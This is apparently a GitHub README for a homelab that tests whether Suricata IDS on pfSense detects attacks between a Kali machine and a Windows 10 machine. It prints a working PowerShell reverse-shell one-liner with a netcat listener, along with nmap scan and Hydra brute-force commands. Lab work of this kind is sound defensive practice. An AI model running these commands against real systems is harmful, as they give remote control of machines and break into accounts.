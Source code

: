 # 🛡️ Cybersecurity Homelab: Suricata IDS + Reverse Shell Attack Simulation

![Status](https://img.shields.io/badge/status-completed-brightgreen)  
![Platform](https://img.shields.io/badge/platform-VirtualBox-blue)  
![Log Type](https://img.shields.io/badge/logs-Suricata%20Alerts-orange)

## 📘 Project Overview

This project demonstrates how to set up a virtualized cybersecurity homelab using **pfSense**, **Suricata IDS**, **Kali Linux**, and **Windows 10**. It simulates a real-world cyberattack involving a **reverse shell** and evaluates **Suricata's detection capability**.

---

## 🏗️ Lab Topology

![_- visual selection](https://github.com/user-attachments/assets/4f46f75e-951e-4bed-b097-f30b0ecb1534)


All machines are connected via **VirtualBox Internal Network (LAN_NET)**.

---

## 🔧 Technologies Used

- VirtualBox
- pfSense Firewall + Suricata IDS
- Kali Linux (Netcat, Nmap, Hydra)
- Windows 10 (PowerShell reverse shell)
- Emerging Threats Open Rules

---

## ⚙️ Step-by-Step Setup

### 1. Homelab Configuration
- Installed pfSense and configured LAN interface as `192.168.1.1`
- Installed Suricata on pfSense and enabled Alert-only mode on LAN
- Added **Kali (192.168.1.100)** and **Windows (192.168.1.101)** to LAN_NET

### 2. Rule Configuration
- Enabled decoder and stream rules by default
- Added `emerging-shellcode.rules`, `scan.rules`, and `http-events.rules`
- Suricata configured to alert on suspicious traffic

---

## 🧪 Simulated Attacks

### ✔️ Reverse Shell
- On Kali:

 nc -nvlp 4444


- On Windows PowerShell:
  
  $c=New-Object Net.Sockets.TCPClient('192.168.1.100',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($r=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$r);$o=(iex $d 2>&1 | Out-String);$s.Write(([text.encoding]::ASCII).GetBytes($o),0,$o.Length)}



- Nmap Port Scan:
  
sudo nmap -sS 192.168.1.101

- Hydra Brute Force (HTTP):

sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.101 http-get


## 📡 Suricata Alert Results

Each simulated attack was captured and alerted by Suricata in the pfSense interface.

| Attack            | Suricata Detection Status |
|-------------------|---------------------------|
| Reverse Shell     | ✅ Alerted (Generic Protocol Decode) |
| Nmap Scan         | ✅ Alerted (Port Scanning) |
| Hydra Brute Force | ✅ Alerted (HTTP anomalies) |


> Screenshots available in the report file.

---

## 📁 Project Structure

```
Cybersecurity-Homelab-and-Reverse-Shell-Simulation/
├── report/
│   └── Homelab_and_Attack_Simulation_Report.pdf
├── screenshots/
│   └── suricata_alerts.png
│   └── reverse_shell_nc.png
├── README.md
```

---

## 🧠 Key Skills Demonstrated

- Virtual firewall and IDS deployment (pfSense + Suricata)
- Red team simulation using Kali Linux
- Alert analysis and logging
- Network security configuration and troubleshooting
- Technical documentation and reporting

---

## 🚀 Future Improvements

- Integrate ELK Stack for centralized logging
- Add Splunk/QRadar for advanced SIEM capabilities
- Include Metasploitable2 for expanded testing

---





